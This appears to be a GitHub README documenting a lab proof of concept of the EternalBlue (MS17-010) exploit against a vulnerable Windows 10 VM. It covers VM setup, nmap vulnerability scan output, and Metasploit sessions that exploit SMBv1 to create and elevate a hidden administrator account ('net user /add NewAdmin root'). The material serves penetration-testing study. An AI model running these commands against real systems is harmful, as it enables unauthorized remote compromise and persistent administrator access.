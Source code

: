 # EternalBlue POC

## Setup

Latest Win10 VM from [here](https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/):
Password (qwerty/azerty) : Pqsszàrd1/Passw0rd!

*This VM is patched against smb-vuln-ms17-010.*

---

Use a vulnerable Windows 10 Pro 10240 x64 ISO to create the VM.

**VirtualBox Network setup** : 
File>Gestionnaire de réseau hôte>Create a new host-only network
Network>Réseau privé hôte

**Guest**
Search 'Windows features' and activate SMBv1.
Open file explorer, select network and activate the network discovery.
Use `ipconfig` to get the guest IP.

## Scan

Check for vulnerabilities with `nmap`.

- `-O`: OS discovery,
- `-sV`: determine service/version info on open ports,
- `-sC`: default script scan,

```bash
> nmap -Pn -n -sV --script vuln 192.168.56.102
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-01 11:39 CET
Nmap scan report for 192.168.56.102
Host is up (0.0037s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: DESKTOP-GIK88U0; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.22 seconds
```

```bash
msf6 > use auxiliary/scanner/smb/smb_version
msf6 auxiliary(scanner/smb/smb_version) > set rhosts
set rhosts  
msf6 auxiliary(scanner/smb/smb_version) > set rhosts 192.168.56.102
rhosts => 192.168.56.102
msf6 auxiliary(scanner/smb/smb_version) > run

[*] 192.168.56.102:445    - SMB Detected (versions:1, 2, 3) (preferred dialect:SMB 3.1.1) (compression capabilities:) (encryption capabilities:AES-128-CCM) (signatures:optional) (uptime:13m 20s) (guid:{82aa542f-6812-4228-9f14-30fbf59f0ab1}) (authentication domain:WIN-DO0J5EDLGLU)
[+] 192.168.56.102:445    -   Host is running Windows 10 Pro (build:10240) (name:WIN-DO0J5EDLGLU) (workgroup:WORKGROUP)
[*] 192.168.56.102:       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## Exploitation

```bash
msf6 > use exploit/windows/smb/ms17_010_eternalblue                  
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 192.168.56.102
rhosts => 192.168.56.102
msf6 exploit(windows/smb/ms17_010_eternalblue) > set SMBPass password
SMBPass => password
msf6 exploit(windows/smb/ms17_010_eternalblue) > set SMBUser Test
SMBUser => Test
# no shell with windows/x64/meterpreter/reverse_tcp, create a new SMB user instead
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/exec
payload => windows/x64/exec
msf6 exploit(windows/smb/ms17_010_eternalblue) > set cmd net user /add NewAdmin root
cmd => net user /add NewAdmin root

msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
[*] Started reverse TCP handler on 192.168.0.21:4444 
[*] 192.168.56.102:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.56.102:445    - Host is likely VULNERABLE to MS17-010! - Windows 10 Pro 10240 x64 (64-bit)
[*] 192.168.56.102:445    - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.56.102:445 - The target is vulnerable.
[*] 192.168.56.102:445 - shellcode size: 1283
[*] 192.168.56.102:445 - numGroomConn: 12
[*] 192.168.56.102:445 - Target OS: Windows 10 Pro 10240
[+] 192.168.56.102:445 - got good NT Trans response
[+] 192.168.56.102:445 - got good NT Trans response
[+] 192.168.56.102:445 - SMB1 session setup allocate nonpaged pool success
[+] 192.168.56.102:445 - SMB1 session setup allocate nonpaged pool success
[+] 192.168.56.102:445 - good response status for nx: INVALID_PARAMETER
[+] 192.168.56.102:445 - good response status for nx: INVALID_PARAMETER
[*] Exploit completed, but no session was created.
# Check that the new SMB user was created
msf6 exploit(windows/smb/ms17_010_eternalblue) > use auxiliary/scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > set rhosts 192.168.56.102
rhosts => 192.168.56.102
msf6 auxiliary(scanner/smb/smb_login) > set SMBUser NewAdmin
SMBUser => NewAdmin
msf6 auxiliary(scanner/smb/smb_login) > set SMBPass root
SMBPass => root
msf6 auxiliary(scanner/smb/smb_login) > run
[*] 192.168.56.102:445    - 192.168.56.102:445 - Starting SMB login bruteforce
[+] 192.168.56.102:445    - 192.168.56.102:445 - Success: '.\NewAdmin:root'
[*] 192.168.56.102:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
# Escalate privilege on our new user
msf6 exploit(windows/smb/ms17_010_eternalblue) > set cmd net localgroup /add administrators NewAdmin 
cmd => net localgroup /add administrators NewAdmin
```

- [Windows 10 exploit informations](https://github.com/3ndG4me/AutoBlue-MS17-010/blob/master/eternalblue_exploit10.py)
- [Adjust the remote UAC](https://github.com/SecureAuthCorp/impacket/issues/481#issuecomment-411884539)
- [EternalBlue writeup](https://redteamzone.com/EternalBlue/)
- [SMB remote connection](https://www.hackingarticles.in/multiple-ways-to-connect-remote-pc-using-smb-port/)
- [Manual exploitation](https://root4loot.com/post/eternalblue_manual_exploit/)